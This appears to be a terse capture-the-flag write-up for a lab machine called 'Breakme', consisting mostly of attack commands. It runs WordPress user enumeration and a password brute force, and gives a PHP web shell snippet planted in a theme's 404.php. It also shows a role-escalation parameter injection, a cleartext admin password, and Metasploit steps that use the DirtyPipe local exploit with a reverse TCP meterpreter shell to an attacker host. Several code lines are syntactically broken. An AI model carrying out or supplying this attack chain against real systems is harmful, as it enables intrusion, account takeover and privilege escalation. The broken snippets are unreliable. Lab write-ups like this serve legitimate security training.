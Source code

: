 ```yaml
---
title: "Breakme"
description: "Write-up Breakme , MED MACHINE"
pubDate: "Jul 15 2022"
heroImage: "/image.jpg"
---
```


10.10.124.81

 feroxbuster -u 'http://breakme.thm' -w /usr/share/wordlists/dirb/big.txt
wpscan --url http:/10.10.199.6/wordpress --enumerate u

admin 
bob

wpscan --url http://breakme.thm/wordpress/ -U admin,bob -P /usr/share/wordlists/rockyou.txt

if(isset($_GET['cmd]))
{
system)($_GET['cmd]);
}


en burpsuite se edita el nombre y se pone
&wpda_role[]=administrator

admin 
1Dy95jL1bg02sErwwfW#NeCd

http://breakme.thm/wordpress/wp-content/themes/twentytwentyone/404.php

cat /etc/passwd | grep 'sh$'

john:x:1002:1002:john
youcef:x:1000:1000:youcef
root:x:0:0:root:/root:/bin/bash

ps -aux | grep john (proscesos de jhon corriendo)

msfconle 
use exploit/multi/script/web_delivery

set session 1

use post/multi/recon/local_exploit_suggester

use exploit/linux/local/cve_2022_0847_dirtypipe
set SESSION 1
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.6.15.252
set LPORT 4445
run

search -f user*.txt

